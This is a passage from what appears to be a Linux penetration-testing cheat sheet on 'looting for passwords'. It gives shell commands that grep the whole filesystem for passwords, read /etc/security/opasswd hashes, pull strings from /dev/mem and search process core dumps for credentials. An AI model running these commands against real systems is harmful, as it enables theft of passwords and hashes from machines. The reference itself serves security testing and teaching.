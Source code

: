 ## Looting for passwords

### Files containing passwords

```powershell
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```

### Old passwords in /etc/security/opasswd

The `/etc/security/opasswd` file is used also by pam_cracklib to keep the history of old passwords so that the user will not reuse them.

:warning: Treat your opasswd file like your /etc/shadow file because it will end up containing user password hashes

### Last edited files

Files that were edited in the last 10 minutes

```powershell
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"
```

### In memory passwords

**Memory**:

```powershell
strings /dev/mem -n10 | grep -i PASS
```

**Core Dump**:

```ps1
# Find PID
ps -eo pid,command

# Core dump PID
gcore <pid> -o dumpfile

# Search for passwords
strings -n 5 dumpfile | grep -i pass
```

### Find sensitive files

```powershell
$ locate password | more           
/boot/grub/i386-pc/password.mod
/etc/pam.d/common-password
/etc/pam.d/gdm-password
/etc/pam.d/gdm-password.original
/lib/live/config/0031-root-password
...
```
